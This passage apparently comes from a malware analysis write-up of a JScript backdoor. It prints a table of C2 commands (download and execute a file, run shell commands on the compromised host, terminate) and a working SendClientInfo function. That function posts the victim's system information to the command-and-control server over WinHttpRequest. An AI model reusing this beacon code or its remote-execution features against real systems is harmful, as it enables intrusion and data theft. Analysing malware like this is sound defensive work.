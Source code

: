 ```js
       else {details= "Success"}
      };
      SendTaskResult(tasks[task]["id"],result,details)
     }
    }
   }
  }
 }
```

<h6>We can list all the commands on the following array:</h6>
<center>
<h6>
<table>
<tr>
<th>Command</th>
<th>Description</th>
</tr>
<tr>
<td>Download & Execute</td>
<td>Download a file and execute it</td>
</tr>
</tr>
<tr>
<td>Execute</td>
<td>Execute a command on prompt on the compromissed system</td>
</tr>
<tr>
<td>Terminate</td>
<td>Kill the loop and stop the process</td>
</tr>
</table>
</h6>
</center>

<h6>The next functions show the JSON structure used for the response to the C2. On the first contact to the C2, this load the JSON parser and init the operation for collecting the system information of the victim. The last function is used as reply of the result to the operation given by C2.</h6>

```js
function SendClientInfo()
 {
  var response;
  try
  {
   var WinHttpReq= new ActiveXObject("WinHttp.WinHttpRequest.5.1");
   var temp=WinHttpReq.Open("POST",server,false);
   WinHttpReq.SetRequestHeader("Content-Type","application/json");
   WinHttpReq.SetRequestHeader("mode","info");
   WinHttpReq.SetRequestHeader("uuid",clientInfo["uuid"]);
   WinHttpReq.SetRequestHeader("version",version);
   WinHttpReq.Send(JSON.stringify(clientInfo));
   WinHttpReq.WaitForResponse();
   response= WinHttpReq.ResponseText;
  }
  catch(objError)
  {
   response= objError+ "\x0A";
   response+= "WinHTTP returned error: "+ (objError.number& 0xFFFF).toString()+ "\x0A\x0A";
   response+= objError.description;
  };
  return response
 }

```